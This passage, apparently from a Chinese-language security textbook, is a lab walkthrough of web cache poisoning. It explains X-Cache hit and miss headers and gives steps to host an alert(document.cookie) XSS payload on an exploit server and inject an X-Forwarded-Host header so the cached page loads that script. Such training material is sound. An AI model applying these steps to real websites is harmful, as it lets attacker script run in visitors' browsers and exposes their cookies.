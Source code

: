 1.  此外，在查看响应时，如 *图 10**.16* 所示，响应中包含 **X-Cache: hit** 头部。如果看到 **X-Cache: miss** 头部，请继续点击 **发送**，直到获得命中结果：

![图 10.17 – X-Cache: miss 响应](img/Figure_10.17_B18829.jpg)

图 10.17 – X-Cache: miss 响应

**X-Cache** 头部是一个 HTTP 响应头部，用于指示资源是从网页服务器的缓存中提供的，还是直接从源服务器提供的。如果头部包含 **hit** 的值，则表示资源是从缓存中提供的，这比直接从源服务器提供资源更快捷、更高效。这对于提高网站性能非常有用，因为它可以减少服务器与客户端之间传输的数据量。

1.  通过这些信息，点击链接前往攻击服务器并更新文件名为来自绝对 URL 的 JavaScript 路径：

    ```
     /resources/js/tracking.js
    ```

1.  接下来，输入一个 JavaScript XSS 负载到请求体中，并点击 **保存** 以保存攻击：

    ```
     alert(document.cookie)
    ```

1.  再次打开 **GET** 请求并在 **手动响应编辑器** 中删除缓存清除参数，然后添加指向攻击服务器的 **X-Forwarded-Host** 头部（确保使用攻击页面顶部提供的 **EXPLOIT-SERVER-ID**）：

    ```
     X-Forwarded-Host: EXPLOIT-SERVER-ID.exploit-server.net
    ```

![图 10.18 – 网页缓存污染的 GET 请求](img/Figure_10.18_B18829.jpg)

图 10.18 – 网页缓存污染的 GET 请求

重要提示

在构造 **GET** 请求时，务必移除缓存清除头部，并且在添加攻击服务器 URL 时，不要包括 **https://** 或尾部的 **/**。

1.  点击 **发送**，并继续发送请求，直到攻击服务器 URL 在响应中显示，并且头部中包含 **X-Cache: hit**，如 *图 10**.19* 所示：

